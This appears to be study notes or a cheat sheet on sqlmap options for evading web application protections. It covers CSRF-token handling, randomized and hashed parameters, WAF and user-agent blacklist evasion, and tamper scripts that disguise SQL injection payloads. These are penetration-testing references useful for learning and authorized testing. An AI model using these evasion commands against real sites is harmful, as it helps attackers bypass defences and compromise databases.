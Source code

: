 # **Bypassing Web Application Protections**

## **Anti-CSRF Token Bypass**

```  
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## **Unique Value Bypass**

```
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 
```

## **Calculated Parameter Bypass**

```
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 
```

## **WAF Bypass**

```
 --skip-waf
```

## **User-agent Blacklisting Bypass**

```
--random-agent
```

## **Tamper Scripts**

### List Tampers

```
--list-tampers 
```

### Tamper Scripts Usage

```
--tamper=between,randomcase, etc.
```

### Tamper List

| **Tamper-Script** | **Description** |
| --- | --- |
| `0eunion` | Replaces instances of  UNION with e0UNION |
| `base64encode` | Base64-encodes all characters in a given payload |
| `between` | Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #` |
| `commalesslimit` | Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart |
| `equaltolike` | Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart |
| `halfversionedmorekeywords` | Adds (MySQL) versioned comment before each keyword |
| `modsecurityversioned` | Embraces complete query with (MySQL) versioned comment |